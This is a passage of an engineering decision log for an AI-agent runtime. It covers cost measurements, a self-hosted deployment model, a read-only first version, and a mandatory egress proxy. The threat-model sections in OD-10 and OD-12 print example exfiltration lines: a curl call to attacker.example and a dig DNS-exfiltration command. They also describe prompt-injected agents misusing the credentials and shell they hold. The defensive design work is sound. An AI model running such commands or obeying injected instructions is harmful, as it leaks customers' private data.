> **Why now.** [Finding 014](./findings/014-ceiling-test-replication-and-noise-floor.md) reports an unexplained **between-session shift**: tasks that are byte-deterministic across six attempts within a session sat **2.55×** and **1.88×** apart across two sessions at the same fingerprint, same battery, same surface, temperature 0 — and the tool arm is not exempt, at 4 turns and 17,871 tokens in one run against 3 turns and 13,400–13,541 in all five repeats thirty-five minutes later. The finding states that this is blocking for **every** cross-session comparison in the feature and names the E7 cost result. OD-07's range is that result.
>
> **What was derived, from the committed per-attempt rows rather than from this document.** Each family ratio was traced to the run and fingerprint each of its two arms came from. **The lookup 4.366× and the join 2.20× carry no cross-session exposure at all** — every task's arm-to-arm contrast sits inside one run at one fingerprint, so drift cannot reach them. **The lookup 5.06× is cross-session**, as U-42 already recorded, but it has a within-session replacement on the same 27 tasks and the whole movement between them is a factor of **0.8630** that findings 013 and 014 independently refuse to call a difference. **The per-record 9.3× is cross-session, cross-fingerprint, and n = 2** — its tool arm from `20260802T173226-reprobe-perrecord-v2` and its shell arm from `20260802T164929-bias-probe-perrecord`, forty-three minutes apart, on a post-hoc-selected two-task subset. That pairing had not been recorded anywhere. The full derivation, with the run table, is at [14](../../research/14-architecture-synthesis.md) §3.1 under the OWNER FLAG.
>
> **The restated claim.** **The cost advantage survives. No family's advantage is erased and the direction never reverses on any basis examined.** The defensible range is **2.20× to 4.366× per solved task, measured within a single session**. The **9.3× is demoted from a range endpoint to a single cross-session, n = 2 observation** that shows the direction on aggregable tasks and pins no magnitude — quote it as roughly an order of magnitude on two tasks, with `R4.014`'s move from budget-exhausted to answered as what it actually demonstrates, and never as a rate.
>
> **Classified, because conflating these is the recurring failure in this record.** The lower bound **2.20×** is **unchanged**. The upper bound is **narrowed** — 9.3× is not *wrong* and no recomputation moved it; what narrowed is what may be inferred from it. The lookup endpoint is **re-based, not corrected** — 5.06× stands as published, 4.366× is the drift-immune figure, and the difference between them may not be reported as a difference. Nothing is **superseded** and nothing is **deferred**.
>
> **What is and is not the owner's to decide.** **Not at issue:** the pivot's premise. The capability half was already abandoned, and the pre-registered *no 2× cost win → stop* limb is cleared by the lookup family at 4.366× on a within-session paired measurement — a better basis than the 5.06× the limb was originally adjudicated on. **At issue:** whether a v2 scope resting on a **2.20×–4.366×** efficiency case is the same decision as one resting on 2.2×–9.3×. That is a judgement about how much of v2's value was carried by the order-of-magnitude end, and it belongs to the owner. **Two cheap things would settle the residue**: one arm against itself in two sessions separated in time, which [11](../../research/11-validation-plan.md) §9.3 prescribed and which has never been run; and the two aggregable per-record tasks re-run paired in one run, which would put the 9.3× on the same footing as the rest. And a liability nobody designed for: **where no tool fits, the tool arm burns its
entire budget and submits nothing** — three of four per-record failures were exhaustion rather than
wrong answers, against a shell arm that has never exhausted its budget in 31 scored attempts.

**Why no full battery.** The primary metric is pinned at its ceiling — the tool arm sits at 1.00 on
27 of 41 measured tasks against a 0.25–0.85 band — and OD-04 correctly refused to swap the primary
metric to rescue it. Together those mean the experiment as designed cannot answer its question, and
more n on a saturated measurement buys precision rather than information. There is also no
authorized battery to spend it on: the 61-task intermediate composition is forbidden and OD-04's
rebalance was halted by its own pre-declared stop condition. **$24.73 was spent against $120
authorized.** *(Spend-actually-incurred basis, and both figures are **as at OD-07's four sessions**.
On committed artifacts alone those four sessions are **$24.67**; both bases are legitimate and are
set out in [VERDICT](./VERDICT.md) §6. Corrected 2026-08-03 — the earlier reading treated $24.73 as
artifact-exact, which it is not. **Superseded as a running total on 2026-08-03, not as a record of
this decision:** two further E7 sessions ran after OD-07 closed, taking the artifact-exact E7 total
to **$35.0817**; [finding 013](./findings/013-ceiling-test-budget-parity.md) holds the
decomposition. The $120 authorised for the full battery is still unspent and this decision is
unaffected.)*

**The revised product claim: ~~cheaper and safer~~ *cheaper within session, and safer only for
hand-written surfaces*, not more capable.** The capability half of the
thesis is **not supported by this evidence** and the specification must not assert it.

> **⚠️ NARROWED at both surviving limbs, 2026-08-03 — and the two narrowings are different kinds of
> thing, which is why they are separated here.**
>
> **Cost — narrowed, not corrected.** The defensible range is **2.20×–4.366× within session**. See
> the boxed RESTATEMENT above: the 9.3× is demoted from a range endpoint to a single cross-run,
> cross-fingerprint, n = 2 observation that establishes direction and pins no magnitude. Nothing was
> recomputed; what narrowed is what may be inferred.
>
> **Safety — the limb is WITHDRAWN as stated and re-scoped, which is stronger than a narrowing.** The
> honesty condition below said "safer" must travel as an assumption to be validated, and named
> **n = 1** as the binding limit. **That was the wrong binding limit.**
> [Finding 014](./findings/014-ceiling-test-replication-and-noise-floor.md) traces the fail-open
> immunity to **a human declining to use the API's own filter** — not to the tool abstraction
> ([14](../../research/14-architecture-synthesis.md) **C-18**). The tool the baseline lost to was
> hand-written by someone who already knew the filter was untrustworthy. **A synthesized tool over
> the same operation would use the declared filter and inherit the defect**, and no mechanism to
> detect that has been built or designed.
>
> **So the surviving statement is: a *hand-written* surface can encode identifier discipline that a
> shell baseline missed once.** That claim may be made, with its n = 1 attached. **"Synthesis is
> safer" may not be made at all** — it is not an assumption under validation, it is a claim the
> evidence points *against*. The transfer question, not the sample size, is now the binding limit.

**The honesty condition attached to "safer," which is not optional.** That half rests on **one
observation**. On the single lookup the baseline failed, it found the endpoint, the parameter and
the correct identifiers, then queried by display name rather than slug and the application **failed
open** — 60 records returned where 7 were correct, silently. That names a mechanism rather than
asserting a benefit, and it is the best argument the product has. It is also n = 1. Replication was
offered at ~$15 and **deliberately declined** in favour of proceeding. **The production spec MUST
carry "safer" as an assumption to be validated, never as an established property**, and the
declined replication is recorded here so the gap is known rather than discovered later.

**An architecture requirement falls out of the liability.** A tool surface is a bet that the
question falls inside it, and losing that bet costs everything. The emitted stack therefore needs a
**general fallback path** rather than synthesized tools alone. That pushes toward fusing the two
agent classes — which [07](../../research/07-product-vision.md) identifies as the lethal trifecta by
construction, so the spec must reconcile it against constitution Principle IV rather than inherit it
silently.

### OD-08 — Deployment model: self-hosted first, hosted preserved as a future option

**Decided 2026-08-02**, closing the question that has been open since the research phase and that
the README correctly identified as undeferrable past a production spec.

**Ship self-hosted. Design so that fully hosted remains reachable later without a rewrite.**

**Why self-hosted first.** Three of today's results converge on it. **Reachability is needed twice,
not once** — E14 and E15 make a running deployment an input to *analysis*, and the runtime needs the
same reach again at *execution* time to invoke anything at all; co-location makes both free, while a
hosted model must cross a customer network boundary twice. **OD-07 requires a general fallback
path**, meaning shell access alongside synthesized tools, and shell access inside the customer's own
trust boundary is a categorically different risk from shell access in our multi-tenant one.
**Credentials never leave the customer's boundary**, which discharges the *custody* surface by
construction rather than by mechanism.

*(Corrected 2026-08-02: this entry first claimed self-hosting discharges "most of
[08](../../research/08-auth-identity-and-secrets.md)'s confused-deputy surface." **It does not, and
the distinction matters more than the wording suggests.** What is discharged is custody: we never
hold a production DSN, so §6.1's concentrated-custody breach — one vault of ours yielding every
customer's resource-plane credentials, which that section calls "the scenario that ends the company"
— cannot occur, and cross-customer blast radius goes to zero. **The deputy problem proper is
untouched.** All five of §2.9's non-negotiables concern an agent inside one boundary being induced
to use authority it legitimately holds; changing who owns the host changes none of them. The
injected instruction still arrives, the agent still holds the credential, the destructive call still
executes against real data. **Two are made worse.** Non-negotiable 4 — resource-plane credentials
must not be network-reachable from an agent shell — is actively degraded, because co-location
becomes the default topology rather than a deployment mistake, which is precisely the condition
under which `psql` bypasses every tool-level control. And non-negotiable 3 — environment variables
are the wrong default — comes under more pressure, since a `.env` beside the install is the most
natural thing a self-hosted operator will do. Net: self-hosting removes the failure that ends **us**
and leaves intact the failure that ends **a customer**. The §2.12 build-item count does not go
down.)*

**What it costs, stated plainly:** harder monetization, no telemetry, slower iteration, and harder
support. These are accepted, not overlooked.

**The binding half of this decision is the second sentence.** Shipping self-hosted is easy; keeping
hosted reachable is a discipline that has to be enforced from the first commit, because the things
that foreclose it are all defaults someone reaches for when there is only one tenant:

- **Never assume co-location.** The network boundary between the pipeline, the runtime, and the
  target application MUST be explicit in the architecture even when all three are on `localhost`.
- **Tenant and deployment identity are first-class from day one.** D-17 already requires deployment
  identity as data on every derived artifact, and OD-06 gives it a home on the reachability
  annotation. That requirement is now doing double duty and MUST NOT be relaxed on the grounds that
  a single-tenant deployment has only one of them.
- **No customer-specific path, hostname, or credential may be baked into an emitted artifact.**
  Configuration reaches the stack by environment-variable injection, which Principle IV already
  requires; self-hosting must not become an excuse to shortcut it.
- **Storage and the knowledge layer MUST be namespaceable** even while exactly one namespace exists.

**The iframe tier is deferred with the hosted model**, not shipped ahead of it. Untrusted end-user
input reaching an agent that holds shell access and write tools is the lethal trifecta in full, and
it is not the thing to build first.

> ### Annotation — **U-05 is reclassified as hosted-tier-blocking. Owner decision, 2026-08-03.**
>
> **This is an annotation on OD-08 and not a new decision row, and the choice was verified against
> the U-39 precedent rather than assumed.** The OD-15 through OD-21 precedent is to annotate an
> existing entry rather than mint a decision row where nothing about the product changes, and
> **U-39's reclassification earlier on 2026-08-03 is the first *executed* instance of that shape in
> this corpus** — recorded as a dated annotation on **OD-18**, with the U-39 row annotated in place in
> `research/14-architecture-synthesis.md` §5.1 rather than moved to §5.2, and with the §5.1 preamble
> and the register's closing confidence note both corrected. That annotation was read in full before
> this one was written, and all four of its site kinds are mirrored here. Nothing about the product
> changes: OD-08 already decided the deployment model, and what is being decided now is which
> register the consequence sits in.
>
> **What the U-39 annotation said about U-05, and why it no longer holds.** OD-18's annotation
> recorded that *"U-05 has never actually been demoted; it is still in §5.1, still flagged,"* and that
> *"U-05 is not reached by this decision."* Both were accurate on 2026-08-03 when written. This
> annotation is what reaches it, later the same day, and the two are independent owner acts rather
> than one act propagated twice.
>
> **The decision.** **U-05 stops blocking v1 and becomes hosted-tier-blocking.** It continues to block
> the hosted deployment model that the second clause of this decision keeps reachable.
>
> **The reasoning, and each limb is load-bearing.** **① OD-08 discharged the limb that made U-05
> block v1, and it discharged it by construction rather than by measurement.** U-05's *"why it
> matters"* was that the answer *"determines whether BYO credentials can ever be anything better than
> long-lived keys in our custody"* — and under self-hosting there is no custody of ours. The
> credential lives in the customer's boundary, and a customer who already has a platform identity
> federates to **their own** issuer, which is an ordinary documented GA configuration that asks
> nothing of us. No v1 commitment depends on the undocumented case. **② The hosted-tier limb is
> untouched, and it is a trust question rather than a technical one.** Whether a customer will
> register *our* OIDC issuer — effectively trusting our token minting — is still undocumented as a
> pattern, still unasked of any design partner, and still commercial (**O-02**). Nothing was measured
> and no documentation changed. **③ The unanswered trust question stays attached to the decision it
> would inform**, which is the decision to ship the hosted tier — deferred by this decision's own
> first clause — rather than being discharged along with the v1 commitment. The entry changes owner;
> it does not weaken.
>
> **One v1 obligation survives the reclassification and is not deferred with the tier**, because it is
> a design constraint rather than a question: the credential broker MUST accept a short-lived
> federated token *and* a long-lived key from its first version. The self-hosted customer with a
> platform identity is the case that works today and the case that must keep working when the hosted
> tier arrives, so relaxing it would be a foreclosure of the kind this decision's four disciplines
> exist to prevent (D-20 discipline 2, D-07).
>
> **Propagated to** `research/14-architecture-synthesis.md` at the **U-05** row, at the §5.1 preamble
> (which now records a second reclassified entry and names the two different successor gates), and at
> the §5.1 confidence note, whose live v1-blocking list is corrected to **U-02, U-04, U-06 and
> U-30** — the note's sentence *"U-05's own flag is untouched and still outstanding"* is superseded in
> place rather than deleted. Also at that document's TL;DR item 15, at the **O-01** and **O-02** rows,
> at the §2.9 adoption note, and at §6.5's *do not start these on Monday* list; and here at the *Open
> items this plan does not resolve* section, where U-05's demotion flag was recorded as outstanding.

### OD-09 — The pre-registered pivot is honored: v1 is a runtime, not a generator

**Decided 2026-08-02.** [11](../../research/11-validation-plan.md) §7 pre-registered, before any
experiment ran, that if the shell-plus-spec baseline landed within 5 points of ideal hand-written
tools then *"the product is a spec-aware runtime plus a verifier plus drift detection — real, but
~10× smaller than the current plan. Re-scope before proceeding."* **It fired in all three families,
and in two the baseline was ahead** — lookups 3.7 points apart, joins the baseline +10, per-record
the baseline +50. The rule is honored as written.

**v1 is a spec-aware runtime, a contract-derived verifier, and drift detection.** Tool synthesis,
promotion selection, effect classification and decomposition-into-agents **leave v1**. Synthesis is
recorded as a *measured* v2 opportunity carrying its number — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~
**2.20×–4.366× within session** cheaper wherever it succeeds — and **its two liabilities**: outside
its surface the tool arm burns its entire budget and returns nothing, and the fail-open immunity
that made a curated surface look *safer* does not transfer to a synthesized one (OD-07;
[14](../../research/14-architecture-synthesis.md) C-18, D-21). *(Lower bound corrected 2026-08-03
and the upper bound narrowed the same day; see OD-07 above and its boxed restatement. The pivot this
decision honors turned on the capability limb and is unaffected.)* It is an efficiency layer with evidence behind it, not v1 scope.

**Why this is the product the evidence points at, rather than a retreat.** Access turned out to be
most of the capability and synthesis most of the efficiency. And the single case where the curated
surface actually won was **an API that failed open** — the baseline held the correct identifiers,
queried by display name rather than slug, and was handed 60 records where 7 were right, silently.
A verifier is precisely the thing that catches that. The pivot's product attacks the one mechanism
the experiment found, instead of the benefit the thesis assumed.

**The honesty condition, which is not optional.** A second pre-registered rule fired too: the tool
arm above 85% means the task set is mis-calibrated, and that rule says draw no conclusion. **It
applies to both tied families.** It does not apply to per-record, where the tool arm sat at 50%,
squarely inside the 0.25–0.85 band, and lost 2/4 against 4/4. **So this re-scope rests on one
properly calibrated family at n = 4, plus two families that cannot support a conclusion in either
direction.** That is thin, it is stated here so nobody has to rediscover it, and the honest reading
of the tied families is *no difference detectable at this difficulty* rather than *no difference*.

**What discovery's results are still worth, under the new scope.** E4's contract derivation feeds
the verifier directly. E14/E15's reachability feeds deployment-drift detection. E5's provider
agnosticism and E6's loop-safety gap analysis feed the runtime, and the ~2.5–3.5 weeks of
loop-safety build (OD-01) is **unchanged** — a runtime needs those primitives more than a generator
does, not less. The analysis layer's role **shrinks rather than disappearing**: from *decompose into
agents and synthesize tools* to *derive contracts where no schema is published, and detect source
drift*. That is a materially smaller build and the production spec must size it as one.

**Consequence for the four claimed differentiators.** Contract-derived verification and drift
detection **are** v1 and are now the whole product. Promotion selection and effect classification
**defer with synthesis**. The README's framing needs that split rather than a softening.

### OD-10 — v1 is read-only. No write ships until the effect gate's precision is measured

**Decided 2026-08-03.** D-22 established that v1 must resolve an effect tier for **every call** at a
blocking interception point, because v1 emits a shell and an HTTP client aimed at live data and
constitution Principle IV binds them. **This decision settles what that gate is permitted to let
through: reads, and nothing else.**

**Why, and none of the four reasons is a scheduling reason.** ① The verb→tier proxy is **crude by
inspection**, not merely in principle: `POST /jobs/purge` is irreversible and the verb says
*reversible-write*; `GET /export?destroy=1` exists in the wild and the verb says *read-only*. ② Its
precision **has never been measured against anything** (U-43). E7's write family `W1` — eight
single-entity write tasks — was designed into [11](../../research/11-validation-plan.md) §4 and
never ran against the baseline, so **writes are unmeasured experimentally as well as structurally**;
there is not even a false-success rate for them. ③ **D-16's ≥ 0.98 gate was written for a different
classifier** — a static `read_only` label produced by a synthesizer that no longer exists — so it is
neither satisfied nor violated by a per-call verb lookup, and quoting it as met would be a category
error. ④ The compile-time `no_trifecta` invariant is **gone, not deferred** (C-16). Shipping writes
on that basis means gating destructive operations on an unvalidated classifier, which is precisely
what the Principle I amendment applied as constitution v1.1.0 (OD-03) exists to prevent.

**This takes the first branch of a rule that was pre-registered before any experiment ran, which is
the same footing OD-09 stands on.** [11](../../research/11-validation-plan.md) §7 Phase 5 and §8 both
say: *read-only precision on effect classification < 0.98 → writes do not ship in v1; enforce
read-only structurally at the network layer (an HTTP method allowlist in the tool dispatcher), not by
classification.* An unmeasured precision is not ≥ 0.98, so the branch that fires is the first one.
**Note the mechanism that branch names is a structural allowlist rather than a classifier** — which
is exactly the D-22 interception point, and it is why this decision hardens that point rather than
removing it.

**The interception point stays; its disposition table collapses from four rows to two.** Resolved
read-only → allow. **Everything else — reversible-write, irreversible, and `UNKNOWN` — is denied
outright**, with a legible reason so the agent can find a safer path. Nothing escalates to a human at
runtime. This **amends D-22** clauses ③ and ⑤ and **supersedes** the "human gate as the compensating
control" clause in the D-16 restatement: there is no compensating control because there is nothing to
compensate for.

**One word needs a definition or it denies everything.** *Provably read-only* is not available: a
verb is a convention and a lookup is not a proof. **v1's operative standard is stated rather than
proved** — a call resolves read-only when its method is a safe method in the served-operation
specification D-18 already fetches **and** it matches no entry in a deny list of known side-effecting
reads (export-with-side-effect, `?destroy=`, RPC-over-GET). That is a rule set, it is unvalidated,
and **the word "provably" must not be carried into the production spec.** Recording this is the
Principle I discipline applied to our own decision.

**Whether this defuses C-16, checked rather than assumed — it defuses one limb of two.** The claim
under test was that removing writes cuts a leg of the lethal trifecta and so makes the loss of the
compile-time `no_trifecta` invariant cost materially less. **The trifecta is private data + untrusted
content + an egress path, and read-only-against-the-target removes none of those three.** A v1 agent
still holds a credential bound to real records (private data), still ingests tool returns and stored
rows (untrusted content), and **still holds a shell and a general HTTP client, so egress is
unconditional** — `curl https://attacker.example/?d=…` is a read with respect to the target and a
complete exfiltration with respect to the data. [07](../../research/07-product-vision.md) Q10 said
this before the question arose: *read-only is not automatically safe… reads can be the exfiltration
itself.* **So: the destructive-action limb of C-16 is retired, and the exfiltration limb is
untouched.** The `no_trifecta` invariant was an exfiltration check, so its loss is **not** materially
cheaper — C-16 is **narrowed, not defused**, and stays open. **What genuinely improves is different
and worth more than the claim it replaces:** the gate's exposure shrinks from *any misclassification
in either direction* to *one error shape* — a side-effecting endpoint reached by a safe method. With
default-deny, a false *write* label costs availability; only a false *read-only* label costs
integrity. **That makes U-43 a much smaller and more measurable target**, and it is the strongest
argument for this decision.

**D-15, the human review gate: its runtime leg goes dormant, its configuration leg is now the whole
gate.** D-22 had added *per-call gate decisions* to D-15's objects. Under default-deny there are no
per-call decisions to review, so that object is removed and the remaining three stand unchanged —
derived contracts with their provenance and `validated` markers, the reachability annotation and the
deployment it claims, and credential bindings. **Add one: the deny list and the safe-method rule set
above**, which is now the only thing standing between the agent and a side-effecting read. Two
consequences worth stating. The gate stops producing routine runtime prompts, which removes the
disable-by-noise failure mode entirely — a real gain. And **a legitimately blocked operation now has
no human override**, which is a usability cost accepted deliberately rather than overlooked; the
"human sees the resolved request" machinery (D-07 non-negotiable 5) is **deferred with writes** rather
than deleted.

**D-16: dormant as a v1 gate, and it must be restated for v2 rather than inherited.** It is not
*wrong* — its intent was always right — and it is not merely *deferred*, because its subject changed
from a static per-tool label to a per-call tier. **Its form survives as the exit condition from
read-only:** writes ship when the effect gate's read-only precision is measured against a labelled
corpus of real endpoints and clears a pre-registered threshold. **Its number does not survive
automatically.** 0.98 was chosen for a static label over a curated catalogue; a per-call gate over a
general shell has a different base rate and a different blast radius, so the threshold must be
**re-derived when the measurement is designed**, not copied across. Recording it as "0.98, still"
would be exactly the inherited-number failure this project keeps catching elsewhere.

**Propagated to** `research/14-architecture-synthesis.md` (TL;DR 17 added; **D-22** amended, **D-16**
restated a second time, **D-15** narrowed, **C-16** re-weighed and kept open, **U-43** narrowed, §2.6
and §6 updated); `research/11-validation-plan.md` §7 Phase 5 and §8; `research/07-product-vision.md`
Q4, Q10, §3.2.5, §6.1 and §7.4; `README.md`; `specs/001-discovery-validation/VERDICT.md` (header,
FR-012, and the D-16 line in §7); `research/README.md`; and
`.cursor/skills/agent-safety-and-sandboxing/SKILL.md` with the roster note in
`.cursor/skills/README.md`.

### OD-11 — ~~the verifier-versus-LLM-judge experiment runs before the production spec is written~~ **the blocking condition is RETIRED, superseded 2026-08-03 by OD-14**

> **⚠️ SUPERSEDED 2026-08-03 — the blocking condition only, and *superseded* rather than *wrong*.**
> **Struck, not deleted:** everything this decision says about *why* the three v1 capabilities are
> unmeasured was true when written and is still true. What is retired is the consequence it drew —
> that the production specification waits for a measurement. **OD-14** below takes the opposite
> disposition on the same facts, having learned one thing OD-11 could not know: the experiment was
> built, and its corpus cannot answer the question at any price this feature would pay.
>
> **What is retired.** The sentence *"the production specification is blocked on this result"*, and
> with it the re-identification of the next artifact as an experiment rather than a specification.
> **The production specification is unblocked.** Everything else in OD-11 stands as a record of the
> gap and its reasoning.
>
> **What is not retired, and is open independently.** The verifier-versus-judge harness's
> pre-registration §4.1 requires **a human adjudication pass over all 20 oracle negatives** plus a
> sampled audit of positives, with any overturn recorded in an amendment and stop condition **S1**
> firing above 2 overturns in 40. **That pass was never performed.** No verdict in the harness has
> been human-checked, and OD-14 does not discharge it — OD-14 declines to *run the comparison*, which
> is a different act from declining to *audit the oracle*. The oracle is the same artifact E7's
> per-family verdicts rest on, so the audit has value with or without E19. It is **deferred, not
> superseded**, and it belongs to whoever next touches that corpus.
>
> **Read the strike precisely.** OD-11 was not a mistake. It was the correct call on the information
> available on the morning of 2026-08-03, and building the harness is what produced the information
> that overturns it. A gate that changes its disposition after the experiment is built is what a
> gate is for.

~~**Decided 2026-08-03. The production specification is blocked on this result.**~~

**Why.** All three surviving v1 capabilities are unmeasured, and two of the three were promoted to
headline status by subtraction rather than by evidence. Drift detection was scheduled for
[11](../../research/11-validation-plan.md) §7 **Phase 5** (H6) and that phase never ran. The
verifier's **marginal detection over an LLM judge** — the number that was supposed to earn it
headline status — was scheduled for **Phase 2** and that never ran either; the verifier's standing
rests on [finding 007](./findings/007-contract-extraction.md), which measured *extraction accuracy*
and not *marginal detection*. The effect gate's precision is U-43. §8 of that document already says
this in its own voice: the Phase 2 row is *"the most consequential gap in the table."*

**The reason this is a gate and not an input.** If a general-purpose LLM judge catches everything a
contract-derived verifier catches, the verifier is not a differentiator, and with promotion selection
and effect classification already in v2 there is no v1 product left to specify. **A spec cannot
resolve that question; only a measurement can.** Feature 001 existed to prove things before building
them, and speccing v1 on three unmeasured capabilities would contradict the discipline the feature was
run to establish — the same discipline that made OD-09 honorable rather than a retreat.

**The pre-registered gate this inherits, verbatim from §8:** *verifier adds ≥ 10 pp → headline
feature; adds < 10 pp → CI detail; judge AUROC < 0.5 → constitutional ban on LLM judges in the success
path.* It is quoted rather than re-derived, so it cannot be accused of being fitted to a result.
**Read the third branch carefully — it is a constitutional consequence, not a product one**, and it
fires on the judge's own number regardless of what the verifier does.

**A harness is being built concurrently under
[`harness/`](./harness/) and is referenced here as forthcoming.** This plan does not specify it and
must not be read as doing so; the experiment's own pre-registration governs.

**What this does and does not re-open.** It does **not** re-open feature 001, which is closed on
OD-07 and adjudicated in [`VERDICT.md`](./VERDICT.md). It inserts one gate **between** that closure and
the production spec, and it changes the identity of the next artifact: the next artifact is an
experiment, not a specification. **Everything else in the next-actions list keeps its order** — the
loop-safety build (OD-01) is unblocked and independent, and sizing the surviving analysis layer does
not depend on this result.

**Propagated to** `README.md` (next actions re-ordered and the spec marked blocked);
`research/14-architecture-synthesis.md` (TL;DR 18 added, §6 "What to do Monday" re-ordered, **P-07**
and **P-09** annotated); `research/11-validation-plan.md` §8 Phase 2 row and its closing note;
`specs/001-discovery-validation/VERDICT.md` (header and §7); `research/README.md`; and
`.cursor/skills/contract-derived-verification/SKILL.md` with the roster note in
`.cursor/skills/README.md`.

### OD-12 — all egress traverses one mandatory proxy, which enforces destination and method together

> **✅ DECIDED 2026-08-03. Ratified by the owner as drafted, plus one addition that changes where the
> control lives: the destination allowlist and the HTTP method allowlist move into a single mandatory
> egress proxy.** ~~Status: drafted 2026-08-03 by analysis, pending owner ratification. This is not an
> owner decision and must not be cited as one. Until it is ratified, the position of record is
> [14](../../research/14-architecture-synthesis.md) §7.6 — an egress allowlist is the cheapest
> remaining trifecta mitigation and it is undecided. Everything below is an argument for a decision,
> not the decision.~~ **The proposed-status block is struck rather than deleted, because what it was
> waiting on is the useful record: the draft asked for a v1 requirement and OD-numbered decisions are
> the owner's to make. The draft's six numbered requirements below stand as written and are now
> binding; the proxy addition and the shell resolution follow them.** The constitution amendment the
> draft flagged as a candidate at requirement 2 is separately approved and applied — see **OD-13**.

**What prompted it.** OD-10 asked whether read-only defuses C-16 and answered *one limb of two*. The
follow-up question was whether **network-layer egress control** closes the other limb. Working it
through turned up something larger than the answer: **constitution Principle IV's *first* bullet is
unmet by v1 and no site in the corpus had noticed.** Principle IV requires, as architecture,
*"sandboxing with a real boundary — filesystem scoped, **network allowlisted to named hosts**,
CPU/memory/wall-time capped."* [08](../../research/08-auth-identity-and-secrets.md) §8.1 item 4 lists
default-deny egress at the host among the **hard requirements — do not ship without these**, and
[07](../../research/07-product-vision.md) §3.2.5 item 5 says egress control is a runtime requirement
rather than a deployment detail. **v1 emits a shell and a general HTTP client with open outbound
network.** C-16, D-22, OD-10 and the safety skill all reason from Principle IV's *second* bullet,
permission tiers; **bullet 1 was never checked against the pivot.** Recorded as
[14](../../research/14-architecture-synthesis.md) **C-17**.

**One correction to the premise this started from, because it changes the entry's status.**
[11](../../research/11-validation-plan.md) §7 Phase 5 and §8 do **not** pre-register an egress
allowlist. Their phrase *"enforce read-only structurally at the network layer"* is defined by its own
parenthetical as *"an HTTP method allowlist in the tool dispatcher"* — a **method** control that
decides read versus write, not a **destination** control that decides where bytes may go. Both get
called "the network layer" and they are different mechanisms at different layers. OD-10 implements
the first. **So this is not a pre-registered mechanism being applied; it is a constitutional
obligation that was never recorded as owed** — which is a stronger footing, and a different one.

**The proposed requirement, stated so that the loose version cannot be substituted for it.** The
emitted runtime's outbound network is **default-deny**, and:

1. **Allowlist unit is host *and* port**, not host. Under OD-08 co-location is the default topology,
   so the target application and its database are routinely the same host or the same Docker network;
   a host-granular allowlist permits `psql` to the allowlisted host and re-opens the very
   non-negotiable this is meant to discharge ([14](../../research/14-architecture-synthesis.md) §2.9
   item 4).
2. **Addresses are pinned at configuration time, not resolved per request.** A name-keyed allowlist
   re-resolves, and a re-resolved name can be re-pointed at loopback or at the database. *"Named
   hosts"* is the constitution's phrasing and it is the weaker key; **flagged as a candidate
   amendment, not amended here.**
3. **DNS is egress and is denied or proxied.** `dig $(…).attacker.example` exfiltrates without ever
   completing a connection to a blocked destination. A reachable recursive resolver defeats items 1
   and 2 entirely, and this is the channel most often left open.
4. **RFC 1918, link-local, the cloud metadata address and loopback are denied even on an allowlisted
   host.**
5. **Enforcement is at the host, not in the guest.** In-guest policy is configuration reachable by a
   program whose instructions come from attacker-influenceable text.
6. **No dependency resolution at run time.** The runtime ships with its dependencies resolved, because
   the alternative is an operator allowlisting a package index — and a package index is a complete
   exfiltration channel via the requested name. Any operator widening of the allowlist is a **D-15
   review object**, recorded as configuration.

**What it discharges, and this is the part worth ratifying it for — one mechanism, three jobs.**
① Principle IV bullet 1 (C-17). ② §2.9's **non-negotiable 4**, *network reachability is the real
control*, which OD-08 actively degraded by making co-location the default rather than a deployment
mistake. ③ C-16's **direct** exfiltration channel. It also partially restores what C-16 records as
lost: `no_trifecta` mattered because it was decidable before the run, and an egress allowlist is
decidable at **configuration** time over a fixed destination set — a narrower property attached to a
deployment rather than to an artifact, which under self-hosting means **we specify it and the
customer instantiates it.**

**What it does not discharge, stated as prominently as what it does.** ① **The target application as
a confused deputy** — an allowlist that permits the target's API permits every operation of that API,
including any that fetches a URL on the caller's behalf. **On the target actually measured this is
closed by OD-10 and not by this requirement**: all five of the target's URL-fetching operations and
both its webhook/notification *test* endpoints are unsafe methods, so default-deny denies them. **That
is a contingent property of one application.** A link-preview or image-proxy endpoint shaped as a
`GET` resolves `read_only` under OD-10's stated rule set and re-opens the limb in full. Recorded as
[14](../../research/14-architecture-synthesis.md) **U-44** with a zero-model-spend measurement and a
**fail-closed** default for targets that cannot be inspected. ② **The response channel** back to the
operator's client, which no network policy touches, and which becomes an exfiltration path the moment
that client auto-fetches remote content referenced in agent output —
[08](../../research/08-auth-identity-and-secrets.md) §5.4 records this for the iframe and it applies
unchanged here. ③ **Delayed egress** through artifacts written into shared storage that something else
later transmits. ④ **Timing and traffic-analysis channels against the allowlisted host**, which are
**out of scope for a stated reason rather than overlooked**: recovering them requires an observer of
the target's access log, and an attacker in that position already has the data the channel would
leak.

~~**A second question the owner has to answer with this one, because OD-10 left it inconsistent.**
[14](../../research/14-architecture-synthesis.md) §2.6's resolution ladder sends *"anything else —
shell, unmatched egress, opaque argv"* to `UNKNOWN`, and **no step in it ever resolves a shell command
to `read_only`.** Under OD-10 `UNKNOWN` denies, so **the ladder as written denies every shell command
v1 issues** — which nullifies OD-07's general fallback path, the one requirement the ceiling test
actually produced. Either v1 has no working shell, or shell commands are parsed and can resolve
`read_only`, in which case the interception point controls no egress at all because its visibility
ends at the argv of a command it allowed. **The record currently asserts both.** The second reading is
almost certainly the intended one, and it is the reading under which this entry is necessary rather
than redundant.~~ **✅ ANSWERED 2026-08-03 by the ratification. The question was well posed and its
framing was wrong: it offered two readings and the owner took neither.** Both readings share a
premise — that the effect gate and the egress control are the same mechanism, so shell has to be
classified for one of them to work. **The resolution removes the premise.** See *The mandatory egress
proxy* and *What this settles about the shell* below.

**The mandatory egress proxy — the owner's addition, and it is where the two controls now live.**
Requirement 5 above says enforcement is at the host. **This makes the enforcement point concrete and
singular: every outbound byte from the sandbox traverses one proxy, and that proxy enforces the
destination allowlist *and* the HTTP method allowlist at the same layer.** The reason to fuse them is
that the proxy sees the request regardless of where it originated — the runtime's own HTTP client, a
`curl` in a shell, a socket opened by an allowed `python3 -c` — so **argv opacity stops being
load-bearing for either control.** OD-10's read-only enforcement therefore stops depending on the
interception point's ability to parse a shell command, which it never had.

**Before recording that as settled, the assumption most likely to break it was tested, because the
failure it would produce is the same shape this analysis already caught once.** A proxy can enforce a
**method** allowlist only if it can see the method and the path. Against an HTTPS target a proxy doing
CONNECT-level filtering sees a host and a port and nothing else, so **the method allowlist silently
degrades into a destination allowlist and read-only enforcement evaporates while appearing intact** —
exactly the method-versus-destination conflation corrected in the premise section above, re-arriving
one layer down. Seeing the method therefore implies terminating TLS at the proxy, trusting a proxy CA
inside the sandbox, and re-originating to the target. **That was worked through and the verdict is
